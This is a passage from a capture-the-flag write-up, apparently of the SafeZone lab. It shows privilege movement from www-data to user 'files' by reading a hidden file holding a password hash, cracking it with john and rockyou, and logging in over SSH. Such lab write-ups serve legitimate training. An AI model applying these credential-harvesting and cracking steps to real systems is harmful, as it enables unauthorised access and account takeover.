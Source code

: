 ### www-data to files

**Let's view user `files` home directory!**
```
www-data@safezone:/var/www/html$ ls -lah /home/files
total 40K
drwxrwxrwx 5 files files 4.0K Mar 29  2021  .
drwxr-xr-x 4 root  root  4.0K Jan 29  2021  ..
-rw------- 1 files files    0 Mar 29  2021  .bash_history
-rw-r--r-- 1 files files  220 Jan 29  2021  .bash_logout
-rw-r--r-- 1 files files 3.7K Jan 29  2021  .bashrc
drwx------ 2 files files 4.0K Jan 29  2021  .cache
drwx------ 3 files files 4.0K Jan 29  2021  .gnupg
drwxrwxr-x 3 files files 4.0K Jan 30  2021  .local
-rw-r--r-- 1 files files  807 Jan 29  2021  .profile
-rw-r--r-- 1 root  root   105 Jan 29  2021 '.something#fake_can@be^here'
-rwxrwxrwx 1 root  root   112 Jan 29  2021  pass.txt
```

**Oh! That `.something#fake_can@be^here` file looks sussy:**
```
www-data@safezone:/var/www/html$ cat /home/files/.something#fake_can\@be\^here
files:$6$BUr7qnR3${Redacted}
```

That's a password hash!

**Let's crack it via `john`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt files.hash        
[...]
{Redacted}            (files)
```

**Cracked! Let's SSH to user `files`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# ssh files@$RHOSTS
files@10.10.245.138's password: 
[...]
files@safezone:~$ whoami;hostname;id;ip a
files
safezone
uid=1001(files) gid=1001(files) groups=1001(files)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:90:5e:ae:39 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2765sec preferred_lft 2765sec
    inet6 fe80::94:90ff:fe5e:ae39/64 scope link 
       valid_lft forever preferred_lft forever
```
